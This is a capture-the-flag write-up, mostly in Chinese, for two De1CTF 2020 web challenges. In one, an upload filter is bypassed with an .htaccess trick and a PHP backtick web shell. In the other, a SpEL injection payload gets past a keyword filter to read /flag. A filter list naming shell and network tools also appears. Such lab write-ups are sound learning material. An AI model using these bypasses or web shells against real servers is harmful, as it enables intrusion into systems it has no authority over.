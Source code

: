```yaml
---
title: De1CTF 2020 Partial Writeup
key: 43d6a645e0728590bf541b6f81524107
tags:
  - Writeup
  - CTF
date: 2020-05-05 17:02:54
---
```


## Web

### check in

hint: 服务器5分钟重置一次 The server will reset every 5 mins.

文件上传题目，上传的文件会保存在选手个人的文件目录下，fuzz 发现对上传文件内容作了如下过滤：

```c
perl|pyth|ph|auto|curl|base|>|rm|ruby|openssl|war|lua|msf|xter|telnet in contents!
```

File Format 也进行了限制，可修改 Content-Type: imgae/jpeg 进行绕过。

通过上传 `.htaccess` 配置文件添加 `.asp` 后缀文件解析规则（通过 `\` 换行进行绕过）:

```php
AddType application/x-httpd-p\
hp .asp
```

再上传 `.asp` 后缀文件通过 PHP 短标签结合反引号 **`** 执行命令：

```php
<?=`cat /flag`;
```

获取到 flag: De1ctf{cG1_cG1_cg1_857_857_cgll111ll11lll}.



### calc

Please calculate the content of file /flag

参数提交 URL 路由：`/spel/calc?calc=1*1`，应该是考察 **SpEL 注入**，尝试实例化对象及读取文件。

fuzz 发现过滤了 `String`、 `Runtime`、 `T(`、 `java.lang`、`new` 等关键字，最终发现 SpEL 关键字大小写不敏感，最终 Payload 如下:

```java
neW%20java.util.Scanner(neW%20java.io.File(%22/flag%22)).next()
```

flag: De1CTF{NobodyKnowsMoreThanTrumpAboutJava}.

**- 参考 -**

- [由浅入深SpEL表达式注入漏洞 - Ruilin](http://rui0.cn/archives/1043)
